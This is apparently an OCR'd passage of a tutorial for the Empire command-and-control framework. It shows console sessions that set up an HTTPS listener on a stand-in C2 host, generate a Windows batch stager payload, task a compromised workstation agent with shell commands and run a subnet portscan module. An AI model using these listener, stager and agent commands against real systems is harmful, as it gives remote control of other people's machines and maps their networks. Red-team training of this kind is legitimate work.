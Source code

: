 ```

Empire: listeners/http > set Name https_listener
Empire: listeners/http > set Host https://empirec2.example.com
Empire: listeners/http > set Port 443
Empire: listeners/http > set CertPath /etc/ssl/empire/empire.pem
Empire: listeners/http > execute
[*] Starting listener 'https_listener'
[+] Listener successfully started!
```

### Generating Stagers

Stagers are the initial payloads that establish communication with listeners:

```
Empire: listeners > usestager windows/launcher_bat
Empire: stager/windows/launcher_bat > set Listener https_listener
Empire: stager/windows/launcher_bat > set OutFile /tmp/payload.bat
Empire: stager/windows/launcher_bat > generate
[*] Stager output written out to: /tmp/payload.bat
```

### Working with Agents

Once an agent connects, you can interact with it:

```
Empire: agents > [+] Initial agent XZTZ48NV checked in

Empire: agents > list

[*] Active agents:

 Name         Lang    Internal IP     Machine Name    Username            Process             Delay    Last Seen
 ----         ----    -----------     ------------    --------            -------             -----    ---------
 XZTZ48NV     ps      192.168.1.5     WORKSTATION1    CORP\jsmith         powershell.exe      5/0.0    2023-03-15 20:45:18

Empire: agents > interact XZTZ48NV
(Empire: XZTZ48NV) > info
(Empire: XZTZ48NV) > shell whoami
[*] Tasked XZTZ48NV to run TASK_SHELL
[*] Agent XZTZ48NV tasked with task ID 1
(Empire: XZTZ48NV) > corp\jsmith
```

### Advanced Post-Exploitation Modules

Empire includes numerous modules for post-exploitation activities:

```
(Empire: XZTZ48NV) > usemodule situational_awareness/network/portscan
(Empire: powershell/situational_awareness/network/portscan) > set Agent XZTZ48NV
(Empire: powershell/situational_awareness/network/portscan) > set Hosts 192.168.1.0/24
(Empire: powershell/situational_awareness/network/portscan) > set Ports 22,80,443,445,3389
(Empire: powershell/situational_awareness/network/portscan) > execute
```


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire